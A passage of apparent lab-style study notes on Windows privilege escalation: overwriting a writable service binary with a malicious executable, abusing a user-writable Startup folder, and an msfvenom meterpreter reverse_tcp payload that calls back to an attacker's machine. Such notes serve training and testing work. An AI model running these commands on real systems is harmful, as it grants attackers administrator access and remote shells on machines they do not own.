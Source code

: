 
### Escalation
We will generate the same malicious file:
```bash
x86_x64-w64-mingw32-gcc windows_service.c -o x.exe
# send the x.exe
```

Then replace the filepermservice.exe file:
```bash
copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
sc start filepermsvc	
net localgroup administrators
```

> The user has been added to the administrator group.
We have root access through this user.




# Escalation Path: Startup Application

icacls Documentation - https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls

## Overview
Same concept as the autorun attack, when we boot up our machine an application is gonna to startup.

We will use a malicious file to take advantage of that and get shell

Sadly we wont find this vulnerability with PowerUp.

### Detection
```bash
icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"

From the output notice that the "BUILTIN\Users" group has Full access '(F)' to the directory

# F = full access
# M = modify access
# RX = read and execute access
# R = read-only access
```

### Escalation
msfconsole listener:
```bash
use multi/handler
set options

msfvenom -p windows/meterpreter/reverse_tcp lhost=<kali ip> -f exe -o y.exe
```
